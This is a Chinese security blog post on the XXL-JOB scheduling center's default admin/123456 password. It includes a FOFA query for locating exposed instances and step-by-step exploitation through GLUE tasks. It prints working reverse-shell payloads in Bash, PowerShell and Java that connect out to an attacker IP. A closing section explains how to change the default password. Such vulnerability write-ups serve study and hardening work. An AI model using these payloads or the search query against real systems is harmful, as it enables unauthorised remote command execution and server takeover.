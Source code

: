 #  漏洞研究(6)：XXL-JOB调度中心默认口令漏洞   
原创 罗锦海  OneMoreThink   2025-05-12 17:17  
  
## 1. 组件介绍  
  
XXL-JOB是一个分布式**任务调度**  
平台，分为调度中心和执行器两部分。  
  
在调度中心添加执行器后，调度中心可以对执行器进行命令执行，属于集权系统，可以帮助攻击者批量获取服务器权限。  
  
同时，通过调度中心横向到执行器，往往可以帮助攻击者实现跨网横移，这在网络策略严格的环境中具有较大价值。  
## 2. 原理与危害  
  
XXL-JOB的默认帐号密码是admin/123456  
，属于管理员权限。  
  
如果默认口令未修改，攻击者就能登录调度中心，与执行器进行调度通信，对执行器所在的服务器进行任意命令执行，从而获得执行器所在服务器的权限。  
## 3. 影响版本  
  
所有版本的默认口令都是admin/123456  
，因此所有版本的XXL-JOB  
都受到影响。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHgOB4mjqneK5afn0jjfQQGqxp524mKeha36bRAlwSAcOxgichueWgUJA/640?from=appmsg "")  
## 4. 利用方式  
  
FOFA：  
```
app="XXL-JOB" || title="任务调度中心"
```  
### 4.1 Shell脚本  
  
适用于执行器所在服务器的操作系统是具有Shell环境的Linux。  
#### 4.1.1 创建任务  
```
1. 任务管理2. 新增	1. 执行器：【选择需要攻击的执行器】	2. 运行模式：GLUE(Shell)3. 保存
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHYUMPGvqDeYFfDKic2j143zeRgp5wAACiciaKYGlyLia6M1NU6xn6rPsxTQ/640?from=appmsg "")  
#### 4.1.2 编辑任务  
```
1. 任务管理2. 【选择对应执行器】3. 【选择对应任务】4. 操作5. GLUE(Shell IDE)6. 【编写EXP代码】	1. bash -i >& /dev/tcp/10.58.81.119/1234 0>&17. 保存8. 源码备注9. 保存10. 关闭
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHsAuBwiaePT9IegvAJmr1CLiahEIq5ia9BcAjAVKzd8z40plLnY4VGiaCDQ/640?from=appmsg "")  
#### 4.1.3 执行任务  
```
1. 任务管理2. 【选择对应执行器】3. 【选择对应任务】4. 操作5. 执行一次6. 保存
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHUiaiaZzWO2uKr38LESCD13UrRQ47ofMt8qLzMYoNKIAtoVibiccaaLw3lw/640?from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHapxyRtBt294GfJ0DkYIbpHlTdMQOr3pVpHYiaP5aPKLZ4QnVcc8lQnw/640?from=appmsg "")  
#### 4.1.4 查看日志  
```
1. 任务管理2. 【选择对应执行器】3. 【选择对应任务】4. 操作5. 查询日志6. 【选择对应日志】7. 操作8. 执行日志
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHxZaPlyhBgWqptibC2UXSQJVP78Z6vH0Z89VMrdftLTwardOANm1Ndyg/640?from=appmsg "")  
### 4.2 PowerShell脚本  
  
适用于执行器所在服务器的操作系统是具有PowerShell环境的Windows。  
#### 4.2.1 创建任务  
```
运行模式：GLUE(PowerShell)
```  
#### 4.2.2 编辑任务  
```
$LHOST = "10.58.81.119"; $LPORT = 1234; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CH2CfNACN4VxmBnICcRmGeMCWhgYxEDzLVUWdatgicewrM7ordSKxwbsQ/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHHSo3KfXdWFdtOaNM99v7B7aQ9JibM2rWQkDb4hIz2icSQyqB8bHXM8pA/640?from=appmsg "")  
### 4.3 Java代码  
  
适用于所有情况，因为能运行XXL-JOB，执行器所在服务器肯定有Java环境。  
#### 4.3.1 创建任务  
```
运行模式：GLUE(Java)
```  
#### 4.3.2 编辑任务  
```
import java.io.IOException;import java.io.InputStream;import java.io.OutputStream;import java.net.Socket;publicclassExploit{publicExploit()throws Exception {        String host="10.58.81.119";int port=1234;        String cmd="/bin/bash";        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();        Socket s=new Socket(host,port);        InputStream pi=p.getInputStream(),            pe=p.getErrorStream(),            si=s.getInputStream();        OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)                so.write(pi.read());while(pe.available()>0)                so.write(pe.read());while(si.available()>0)                po.write(si.read());            so.flush();            po.flush();            Thread.sleep(50);try {                p.exitValue();break;            }catch (Exception e){            }        };        p.destroy();        s.close();    }}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHC5bwEWtTNickPkJoAwGPB891pezo56kyH3gOQ7JQU7vRDGoRuKcYReQ/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHsAfmctmZxB0viawbkXjQM0iazX6ff9eVtPmoCoDgMTM1RhRF7ASYGdgw/640?from=appmsg "")  
## 5. 加固措施  
### 5.1 修改默认口令  
  
点击右上角的欢迎 admin  
，选择修改密码，修改后会退出登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHD3KsTeKEKUCmiaVnn9UqY7KKLnm6YNxKz5oU7fyBf3fIUIAchjiaGZEQ/640?from=appmsg "")  
  
请注意：登录密码不应超过18位，因为前端登录时会对密码进行截取。XXL-JOB >= 2.1.1  
时前端无法改成超过18位的密码，但XXL-JOB < 2.1.1  
时可以，导致修改密码后无法登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHKu5lCSpsqnApmkWz57WGR5etRbqiaOBS4iaArOZdIP52z8ZPUpeAv6iag/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHm004hNXIzvogj9fkvkYU8NVM9Yzduu1PWZDwIq2CrxUpjI5bpqqT8g/640?from=appmsg "")  
  
此时使用默认口令登录，提示帐号或密码错误，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHYsAKia7hzZWyQ2IcY3tdDBaCaWicK7RglfIwdz8LQLA8LQgFPSFLkg6A/640?from=appmsg "")  
### 5.2 代码中修改默认口令  
  
使用32位小写md5值，替换掉默认口令。  
  
请注意：登录密码不应超过18位，因为前端登录时会对密码进行截取，超过将导致无法登录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHtJAg136ZhVPJJE0F3kRiaKN0QcbzibxjK5JOcmWibEXGSzm2CRHcreibgA/640?from=appmsg "")  
```
vim doc/db/tables_xxl_job.sql
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CH6az0bHdOfCjHhM9UiaMPrUce7pX3NmeF6OmXcAczgamj4hz4HBg5ZCg/640?from=appmsg "")  
  
这样在部署XXL-JOB时，就不会使用默认口令初始化数据库，虽然存在口令复用问题，但也算部分实现了**安全左移**  
。  
```
### 初始化数据库mysql -u root -p    source /usr/local/xxl-job-2.2.0/doc/db/tables_xxl_job.sqlexit
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV90iaQUplmAXLp5oibtqVPU8CHetJjt8ibKDfibMKxWQia0nWe1btXag0XzcnR9YrK9pjo2mbcSMFD65UBA/640?from=appmsg "")  
  
新部署好XXL-JOB后，使用默认口令登录，提示帐号或密码错误，说明漏洞不存在。  
  
